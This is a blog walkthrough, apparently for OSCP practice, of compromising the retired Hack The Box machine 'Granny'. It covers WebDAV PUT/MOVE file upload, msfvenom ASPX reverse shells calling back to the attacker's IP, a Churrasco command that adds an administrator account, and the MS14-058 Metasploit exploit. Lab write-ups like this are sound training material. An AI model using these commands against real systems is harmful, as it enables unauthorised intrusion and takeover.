This is the 34th blog out of a series of blogs I will be publishing on retired HTB machines in preparation for the OSCP. The full list of OSCP like machines compiled by [TJ_Null](https://twitter.com/TJ_Null) can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#).

Let’s get started!

## Reconnaissance

Run the [nmapAutomato](https://github.com/rkhal101/nmapAutomator)r script to enumerate open ports and services running on those ports.

    ./nmapAutomator.sh 10.10.10.15 All

* **All**: Runs all the scans consecutively.

We get back the following result.

    Running all scans on 10.10.10.15
    
    Host is likely running Windows
    
    ---------------------Starting Nmap Quick Scan---------------------
    
    Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-02-16 23:16 EST
    Nmap scan report for 10.10.10.15
    Host is up (0.043s latency).
    Not shown: 999 filtered ports
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT   STATE SERVICE
    80/tcp open  http
    
    Nmap done: 1 IP address (1 host up) scanned in 6.17 seconds
    
    ---------------------Starting Nmap Basic Scan---------------------
    
    Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-02-16 23:16 EST
    Nmap scan report for 10.10.10.15
    Host is up (0.036s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 6.0
    | http-methods: 
    |_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
    |_http-server-header: Microsoft-IIS/6.0
    |_http-title: Under Construction
    | http-webdav-scan: 
    |   Server Type: Microsoft-IIS/6.0
    |   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
    |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
    |   WebDAV type: Unknown
    |_  Server Date: Mon, 17 Feb 2020 04:18:34 GMT
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
    Nmap done: 1 IP address (1 host up) scanned in 10.82 seconds
    
    ----------------------Starting Nmap UDP Scan----------------------
                                                                                                                                                                            
    Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-02-16 23:16 EST
    Nmap scan report for 10.10.10.15
    Host is up.
    All 1000 scanned ports on 10.10.10.15 are open|filtered
    
    Nmap done: 1 IP address (1 host up) scanned in 201.63 seconds
    
    ---------------------Starting Nmap Full Scan----------------------
                                                                                                                                                                            
    Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-02-16 23:19 EST
    Initiating Parallel DNS resolution of 1 host. at 23:19
    Completed Parallel DNS resolution of 1 host. at 23:19, 0.02s elapsed
    Initiating SYN Stealth Scan at 23:19
    Scanning 10.10.10.15 [65535 ports]
    ....
    Nmap scan report for 10.10.10.15
    Host is up (0.042s latency).
    Not shown: 65534 filtered ports
    PORT   STATE SERVICE
    80/tcp open  http
    
    Read data files from: /usr/bin/../share/nmap
    Nmap done: 1 IP address (1 host up) scanned in 262.89 seconds
               Raw packets sent: 131269 (5.776MB) | Rcvd: 201 (8.844KB)
    
    No new ports
    
    ---------------------Starting Nmap Vulns Scan---------------------
                                                                                                                                                                            
    Running CVE scan on basic ports
                                                                                                                                                                            
    Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-02-16 23:24 EST
    Nmap scan report for 10.10.10.15
    Host is up (0.037s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 6.0
    |_http-server-header: Microsoft-IIS/6.0
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
    Nmap done: 1 IP address (1 host up) scanned in 9.48 seconds
    
    Running Vuln scan on basic ports
                                                                                                                                                                            
    Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-02-16 23:24 EST
    /usr/local/bin/nmapAutomator.sh: line 226:  2038 Segmentation fault      $nmapType -sV --script vuln -p$(echo "${ports}") -oN nmap/Vulns_"$1".nmap "$1"
    
    ---------------------Recon Recommendations----------------------
    
    Web Servers Recon:
                                                                                                                                                                            
    gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.asp,.php -u [http://10.10.10.15:80](http://10.10.10.15:80) -o recon/gobuster_10.10.10.15_80.txt
    nikto -host 10.10.10.15:80 | tee recon/nikto_10.10.10.15_80.txt
    
    Which commands would you like to run?                                                                                                                                   
    All (Default), gobuster, nikto, Skip <!>
    
    Running Default in (1) s:
    
    ---------------------Running Recon Commands----------------------
    
    Starting gobuster scan
                                                                                                                                                                            
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves ([@TheColonial](http://twitter.com/TheColonial)) & Christian Mehlmauer ([@_FireFart_](http://twitter.com/_FireFart_))
    ===============================================================
    [+] Url:            [http://10.10.10.15:80](http://10.10.10.15:80)
    [+] Threads:        30
    [+] Wordlist:       /usr/share/wordlists/dirb/common.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Show length:    true
    [+] Extensions:     html,asp,php
    [+] Expanded:       true
    [+] Timeout:        10s
    ===============================================================
    2020/02/16 23:25:19 Starting gobuster
    ===============================================================
    [http://10.10.10.15:80/_private](http://10.10.10.15:80/_private) (Status: 301) [Size: 156]
    [http://10.10.10.15:80/_vti_bin](http://10.10.10.15:80/_vti_bin) (Status: 301) [Size: 158]
    [http://10.10.10.15:80/_vti_bin/_vti_adm/admin.dll](http://10.10.10.15:80/_vti_bin/_vti_adm/admin.dll) (Status: 200) [Size: 195]
    [http://10.10.10.15:80/_vti_bin/shtml.dll](http://10.10.10.15:80/_vti_bin/shtml.dll) (Status: 200) [Size: 96]
    [http://10.10.10.15:80/_vti_bin/_vti_aut/author.dll](http://10.10.10.15:80/_vti_bin/_vti_aut/author.dll) (Status: 200) [Size: 195]
    [http://10.10.10.15:80/_vti_inf.html](http://10.10.10.15:80/_vti_inf.html) (Status: 200) [Size: 1754]
    [http://10.10.10.15:80/_vti_log](http://10.10.10.15:80/_vti_log) (Status: 301) [Size: 158]
    [http://10.10.10.15:80/aspnet_client](http://10.10.10.15:80/aspnet_client) (Status: 301) [Size: 161]
    [http://10.10.10.15:80/images](http://10.10.10.15:80/images) (Status: 301) [Size: 152]
    [http://10.10.10.15:80/Images](http://10.10.10.15:80/Images) (Status: 301) [Size: 152]
    [http://10.10.10.15:80/postinfo.html](http://10.10.10.15:80/postinfo.html) (Status: 200) [Size: 2440]
    ===============================================================
    2020/02/16 23:26:16 Finished
    ===============================================================
    
    Finished gobuster scan
                                                                                                                                                                            
    =========================
                                                                                                                                                                            
    Starting nikto scan
                                                                                                                                                                            
    - Nikto v2.1.6
    --------------------------------------------------------------------
    + Target IP:          10.10.10.15
    + Target Hostname:    10.10.10.15
    + Target Port:        80
    + Start Time:         2020-02-16 23:26:18 (GMT-5)
    --------------------------------------------------------------------
    + Server: Microsoft-IIS/6.0
    + Retrieved microsoftofficewebserver header: 5.0_Pub
    + Retrieved x-powered-by header: ASP.NET
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + Retrieved x-aspnet-version header: 1.1.4322
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + OSVDB-397: HTTP method 'PUT' allows clients to save files on the web server.
    + OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
    + Retrieved dasl header: <DAV:sql>
    + Retrieved dav header: 1, 2
    + Retrieved ms-author-via header: MS-FP/4.0,DAV
    + Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
    + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
    + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
    + OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
    + OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
    + Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
    + OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
    + OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
    + OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
    + WebDAV enabled (UNLOCK PROPFIND COPY MKCOL SEARCH LOCK PROPPATCH listed as allowed)
    + OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: [http://granny/_vti_bin/_vti_aut/author.dll](http://granny/_vti_bin/_vti_aut/author.dll)
    + OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
    + OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
    + OSVDB-3233: /_private/: FrontPage directory found.
    + OSVDB-3233: /_vti_bin/: FrontPage directory found.
    + OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
    + OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
    + OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376). [http://www.securityfocus.com/bid/2252](http://www.securityfocus.com/bid/2252).
    + OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
    + /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
    + 8018 requests: 0 error(s) and 32 item(s) reported on remote host
    + End Time:           2020-02-16 23:32:39 (GMT-5) (381 seconds)
    --------------------------------------------------------------------
    + 1 host(s) tested
    
    Finished nikto scan
                                                                                                                                                                            
    =========================

​                                                                                                                                                                            
​                                                                                                                                                                            
    ---------------------Finished all Nmap scans---------------------
    
    Completed in 16 minute(s) and 19 second(s)

We have one port open.

* **Port 80: **running Microsoft IIS httpd 6.0

Before we move on to enumeration, let’s make some mental notes about the scan results.

* The only port that is open is port 80 so this will definitely be our point of entry. The port is running an outdated version of Microsoft-IIS and is using the WebDAV protocol. One thing that pops out right away is the number of allowed HTTP methods. As mentioned in the scan results, these methods could potentially allow you to add, delete and move files on the web server.

## Enumeration

Visit the web application in the browser.



Look into the directories/files that gobuster found. We don’t find anything useful. Next, let’s test the allowed HTTP methods.

The scan shows that the HTTP PUT method is allowed. This could potentially give us the ability to save files on the web server. Since this is a Microsoft IIS web server, the type of files it executes are ASP and ASPX. So let’s check if we’re allowed to upload these file extensions.

    davtest --url [http://10.10.10.15](http://10.10.10.15)

We get back the following result.



Both ASP and ASPX are not allowed. However, TXT and HTML files are. Remember that the PUT HTTP method was not the only method that was allowed. We also can use the MOVE method. The MOVE method not only can be used to change file locations on the web server, but it can also be used to rename files. Let’s try to upload an HTML file on the web server and then rename it to change the extension to an ASPX file.

    root@kali:~/Desktop/htb/granny# curl -X PUT [http://10.10.10.15/test.html](http://10.10.10.15/test.html) -d [@test](http://twitter.com/test).html

​    
    root@kali:~/Desktop/htb/granny# curl [http://10.10.10.15/test.html](http://10.10.10.15/test.html)
    <h1>Hello</h1>

We confirm that the HTML file was correctly uploaded on the web server. Next, let’s change the extension of the HTML file to ASPX.

    root@kali:~/Desktop/htb/granny# curl -X MOVE --header 'Destination:[http://10.10.10.15/test.aspx'](http://10.10.10.15/test.aspx') '[http://10.10.10.15/test.html'](http://10.10.10.15/test.html')
    
    root@kali:~/Desktop/htb/granny# curl [http://10.10.10.15/test.aspx](http://10.10.10.15/test.aspx)
    <h1>Hello</h1>

Perfect! Now we have confirmed that we can successfully upload and execute ASPX code on the web server.

## Initial Foothold

Generate an ASPX reverse shell using msfvenom.

    msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.7 LPORT=1234 -o shell.aspx

* **-p**: payload

* **-f**: format

* **LHOST**: attack machine’s (kali) IP address

* **LPORT**: the port you want to send the reverse shell to

* **-o**: where to save the payload

Rename the file to *shell.txt *so that we can upload it on the server.

    mv shell.aspx shell.txt

Then upload the file on the web server and change the file extension to ASPX.

    curl -X PUT [http://10.10.10.15/shell.txt](http://10.10.10.15/shell.txt) --data-binary [@shell](http://twitter.com/shell).txt
    
    curl -X MOVE --header 'Destination:[http://10.10.10.15/shell.aspx'](http://10.10.10.15.shell.aspx') '[http://10.10.10.15/shell.txt'](http://10.10.10.15/shell.txt')

Next, set up a listener on your attack machine.

    nc -nlvp 1234

Execute the *shell.aspx* file (either through the browser or the *curl* command) to send a shell back to our attack machine.



We get a shell! Unfortunately, we don’t have permission to view the *user.txt *flag, so we need to escalate privileges.



**Note**: This shell is unstable and seems to crash every minute or so. So the next couple of steps will have to be done in several sessions. If you don’t want to go through this torture, skip to the ***Extra Content ***section that solves the box using Metasploit.

## Privilege Escalation

We’ll use [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) to identify any missing patches on the Windows target machine that could potentially allow us to escalate privileges.

First, download the script.

    git clone [https://github.com/GDSSecurity/Windows-Exploit-Suggester.git](https://github.com/GDSSecurity/Windows-Exploit-Suggester.git)

Next, install the dependencies specified in the readme document.

    pip install xlrd --upgrade

Update the database.

    ./windows-exploit-suggester.py --update

This creates an excel spreadsheet from the Microsoft vulnerability database in the working directory.

The next step is to retrieve the system information from the target machine. This can be done using the “*systeminfo*” command.



Copy the output and save it in the file “*systeminfo.txt*” on the attack machine. Then run the following command.

    ./windows-exploit-suggester.py --database 2020-02-17-mssb.xls --systeminfo ../../htb/granny/systeminfo.txt

It outputs many vulnerabilities. I tried several of them, but none of them worked except for the [Microsoft Windows Server 2003 — Token Kidnapping Local Privilege Escalation](https://www.exploit-db.com/exploits/6705) exploit. Grab the executable [from here](https://github.com/Re4son/Churrasco) and transfer it to the attack machine in the same way we transferred the reverse shell.

Whatever command we include when running the executable file, the command will get executed with escalated privileges.



Let’s use the executable to add a user on the system that is part of the *Administrators* group.

    churrasco.exe "net user test test /add && net localgroup Administrators test /add"

The command completes successfully.



However, when I try to use the “*runas*” command to switch to that user it doesn’t work. Maybe User Account Control (UAC) is enabled and the “*runas*” command does not elevate your privileges. So I figured maybe I could get it working using PowerShell as explained in [this article](https://medium.com/@asfiyashaikh10/windows-privilege-escalation-using-sudo-su-ae5573feccd9), but PowerShell is not installed on the machine!

So all you can do is use the exploit to view the *user.txt* and *root.txt* flags. I however, like to get a privileged shell on each box I solve and so I’m going to use Metasploit to get a shell on this box.

## Extra Content: Metasploit Solution

I’m going to skim through this part since there are a ton of write ups out there that show how to solve this box using Metasploit.

First, create an ASPX meterpreter reverse shell.

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=8888 -f aspx > met-shell.aspx

Then upload the shell payload in the same way we did before.

    root@kali:~/Desktop/htb/granny# cp met-shell.aspx met-shell.txt
    
    root@kali:~/Desktop/htb/granny# curl -X PUT [http://10.10.10.15/met-shell.txt](http://10.10.10.15/met-shell.txt) --data-binary [@met](http://twitter.com/met)-shell.txt
    
    root@kali:~/Desktop/htb/granny# curl -X MOVE -H 'Destination: [http://10.10.10.15/met-shell.aspx'](http://10.10.10.15/met-shell.aspx') [http://10.10.10.15/met-shell.txt](http://10.10.10.15/met-shell.txt)

Configure metasploit to receive the reverse shell.

    use exploit/multi/handler
    set lhost tun0
    set lport 8888

Confirm that the configuration was set properly using the “*options*” command.



Then use the “*run*” command to start the reverse tcp handler. In the browser, execute the *met-shell.aspx* payload and wait for a session to open up in Metasploit.



Perfect! Next, use the local exploit suggester module to see which exploits the system is vulnerable to.



We’ll go with the second one MS14–058.

    use exploit/windows/local/ms14_058_track_popup_menu
    set session 1
    run

It opens up another session.



Let’s see what privilege we’re running with.

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

We’re system! Grab the *user.txt* flag.



Grab the *root.txt* flag.



## Lessons Learned

To gain an initial foothold on the box we exploited one vulnerability.

 1. Insecure configuration of the web server that allowed us to upload arbitrary files using the HTTP methods ‘PUT’ and ‘MOVE’. This would have been avoided if these methods were disabled.

To escalate privileges we exploited one vulnerability.

 1. Kernel vulnerability in the outdated operating system that was being used. This could have been avoided if the OS was patched.

## Conclusion

34 machines down, 12 more to go!

